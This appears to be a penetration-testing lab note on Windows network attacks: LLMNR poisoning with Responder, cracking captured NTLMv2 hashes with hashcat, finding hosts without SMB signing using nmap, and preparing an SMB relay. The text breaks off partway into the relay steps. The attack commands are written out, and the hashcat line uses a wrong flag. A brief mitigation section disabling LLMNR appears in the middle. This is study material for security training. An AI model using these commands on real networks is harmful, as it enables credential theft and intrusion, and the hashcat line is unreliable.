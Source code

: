 >**Scenario:** A user does a typo while entering a Share name (hackm instead of hackme). The server have no idea where that is, so it broadcasts in the network if anyone know the location of "hackm". Now, we as an attacker responds YES to the computer asking for hackm's location, we know where hack just send me you hash and we'll connect you. And the computer passes us the hash.

---

>##### Capturing hash with Responder
1. ```
sudo responder -I eth0 -dw
```
	* -d: Enable answers for DHCP broadcast requests. Injects a  server in DHCP. (**WPAD (Web Proxy Auto-Discovery Protocol)** is a method for web browsers to automatically locate a Proxy Auto-Config (PAC) file.)
	* -w: To start a WPAD server
	* -P: To force NTML authentication
2. Login as `fcastle:Password12345!` from THEPUNISHER machine.
3. In the file explorer, search for your attacker's IP adderess `\\192.168.138.139`.
4. Responder will start to populate NTLMv2 hash of **fcastle**.
5. Now we have a hash to crack!
6. ```
hashcat -a 5600 rockyou.txt fcatle.hash
```

---

>##### LLMNR Poisoning Mitigations
* The best defence in this case is to disable LLMNR and NBT-NS.
1. Group Policy Management → Edit/Create a policy → Computer Configurations → Administrative Templates → Network → DNS Client → Turn off Multicast Name Resolution
2. Enable it → Apply → OK

>If you **must** have LLMNR Enabled
1. Configure Network Access Control.
2. Require strong user passwords. Long is not equals to Complex password!

---

>### SMB Relay
##### What is SMB Relay?
* Instead of cracking hashes gathered with Responder, we can relay those hashes to specific machines and potentially gain access.

>##### Requirements
1. SMB signing must be disabled or not enforced on the target. (which is default setting for workstations, but SMB signing is enabled/enforced on servers by default)
2. Relayed user credentials must be of local administrator of that machine for any retal value.
3. It must be relayed to a different machine. A user cannot relay the hash to himself/to his machine.

---

>##### Identify Hosts Without SMB Signing
1. ```bash
nmap --script=smb2-security-mode.nse -p445 <IP>
```
2. We are looking for "Message signing enabled but not required.

---

>##### Exploitation
1. ```bash
sudo nano /etc/responder/Responder.conf
```
 SMB and HTTP should be **off**.
2. Run responder:
```bash
sudo responder -I eth0 -dwP
```